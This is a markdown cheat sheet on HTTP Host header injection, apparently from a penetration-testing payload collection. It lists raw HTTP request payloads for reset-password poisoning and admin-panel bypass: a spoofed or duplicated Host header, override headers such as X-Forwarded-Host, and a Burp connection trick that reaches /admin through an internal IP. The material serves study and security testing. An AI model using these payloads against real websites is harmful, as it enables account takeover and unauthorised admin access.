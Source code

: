 # Host Header Injection

## Introduction
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior. Attacks that involve injecting a payload directly into the Host header are often known as "Host header injection" attacks.

## Where to find
* In the feature where the website can send email to us. For example forgot password / newsletter.
* Admin module that accept access locally or internal IP.

## Impact
* Bypass Admin Module
* Reset Password Poisoning

## How to exploit
#### Note: evil-website.com can be (127.0.0.1, localhost, Routing-SSRF)
1. Change the host header
```
GET /index.php HTTP/1.1
Host: evil-website.com
...
```
2. Duplicating the host header
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
3. Add line wrapping
```
GET /index.php HTTP/1.1
 Host: vulnerable-website.com
Host: evil-website.com
...
```
4. Add host override headers
```
X-Forwarded-For: evil-website.com
X-Forwarded-Host: evil-website.com
X-Forwarded-Server: evil-website.com
X-Client-IP: evil-website.com
X-Remote-IP: evil-website.com
X-Remote-Addr: evil-website.com
X-Host: evil-website.com

### How to use? In this case im using "X-Forwarded-For : evil.com"
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```
5. Supply an absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```

6.Burp Repeater "Send group (single connection)" Original+tampering
```
### Request Original:
GET / HTTP/1.1
Host: www.vuln.com
Connection: keep-alive

### Request Tampering:
GET /admin HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive

### Response Tampering:
HTTP/1.1 200 OK
…
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
 ```

## References
* [PortSwigger](https://portswigger.net/web-security/host-header/exploiting)
